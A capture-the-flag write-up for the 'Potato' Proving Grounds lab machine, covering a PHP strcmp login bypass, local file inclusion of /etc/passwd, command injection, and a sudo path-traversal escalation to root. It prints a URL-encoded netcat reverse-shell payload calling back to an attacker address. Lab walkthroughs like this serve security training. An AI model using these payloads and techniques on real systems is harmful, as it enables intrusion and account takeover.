 ```yaml
---
title: Potato Writeup - Proving Grounds
date: 2022-07-23T07:00:00+00:00
excerpt: "Potato is an easy rated Proving Grounds Play machine that covers LFI and command injection."
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - LFI
  - Sudo 
ShowToc: true

---
```

Potato is an easy rated Proving Grounds Play machine that covers LFI and command injection.
<!--more-->
## NMAP

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking FTP first and then downloading both files.
`ftp 192.168.243.101 2112`

index.php.bak
```php
<?php                                                                                                                      
$pass= "potato"; //note Change this password regularly                                                       
if($_GET['login']==="1"){                                                                                             
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {              
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";                                                                                                                                                                 
    setcookie('pass', $pass, time() + 365*24*3600);                                                                   
  }else{                                                                                                              
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }                                                                                                                   
  exit();                                                                                                             
}                                       
?>                                                          
  <form action="index.php?login=1" method="POST">                                                                     
                <h1>Login</h1>                             
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>                               
                <label><b>Password:</b></label>                                                                       
                <input type="password" name="password" required>                                                      
                </br>                                                                                                 
                <input type="submit" id='submit' value='Login' >                                                      
  </form>                                                                                                             
</body>                                                    
</html>
```

the authentication uses `strcmp` which I think can be bypassed

Let's check the web app.

![](2022-07-19-09-18-30.png)

trying out `admin:potato` did not work. So I searched on how to bypass `strcmp` and found this article [doyler](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

adding `[]` to the password param worked and we are logged in

![](2022-07-19-09-21-13.png)

There is a ping function. So I checked that first and tried some basic command injections, but nothing worked. I tried to do some LFI in the `page` parameter as well but did not return anything.

I checked the logs function and it looks like it prints the contents of the chosen log. I checked burp and there is a `file` parameter. Tried LFI with `/etc/passwd` and it worked.

![](2022-07-19-09-24-25.png)

We got two users from the `/etc/passwd` file.

`webadmin`
`florianges`

I checked their `.ssh` folder for any sshkey but nothing. The webadmin user also has its password `webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash` So I cracked it

![](2022-07-19-09-27-05.png)

Tried ssh but did not work.

I tried to read `dashboard.php` and noticed that it is executing commands using `shell_exec`

![](2022-07-19-09-33-58.png)

I think this is executing `cat` against `logs/+whatever is in the file param` So maybe we can also chain another command after the `cat` execution. 

I tried `sleep 5` and I got a 5 second delay. so tried `whoami`

![](2022-07-19-09-36-55.png)

And we got command execution. 

Tried a netcat reverse shell and it worked. `file=;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.49.243+80+>/tmp/f` 

I ran `linpeas.sh` but nothing interesting. and then I remember we have creds for `webadmin` I tried to `su webadmin` and it worked. I added my sshkey to `webadmin's` ssh folder for a better shell.

First thing I tried is check my sudo rights as we have creds. `(ALL : ALL) /bin/nice /notes/*` Here we can se we can run the command `nice` against anything in the `/notes` directory. so I tried `sudo /bin/nice /notes/../../../../../usr/bin/whoami` and the output was `root` so it did run whoami as `root` as it only checks the initial `/notes` and does not care if I go back a directory. From here we can just run `/bin/bash`

![](2022-07-19-10-21-24.png)

And we are root!~

